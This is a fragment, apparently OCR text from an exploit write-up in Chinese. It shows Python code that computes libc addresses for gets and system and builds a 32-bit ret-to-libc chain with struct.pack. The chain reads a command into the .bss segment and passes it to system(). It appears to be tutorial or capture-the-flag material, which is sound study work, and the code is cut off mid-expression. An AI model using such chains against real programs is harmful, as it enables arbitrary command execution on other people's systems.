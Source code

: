 print 'libc_base @ '+hex(libc_base)

gets = libc_base+0x661a0

system = libc_base+0x3ea70

第二点是system所执行的参数字符串，上面是直接将字符串写在用户可控的堆上，而堆地址被程序保存在全局指针中，通过printf输出函数构造的ret-to-libc即可将该指针指向的堆地址打印出来，进而得到字符串地址。另外一个方法是利用定位到的gets()函数地址，构造ret-to-libc将命令参数读取到.bss段上，再调整到system()指向命令。即构造如下ret-to-libc链，其中0x0804c548即是.bss段上用来保存字符串参数的地址。

struct.pack('I',gets)+\

struct.pack('I',system)+\

struct.pack('I',0x0804c548)+\

struct.pack('I',0x0804c548))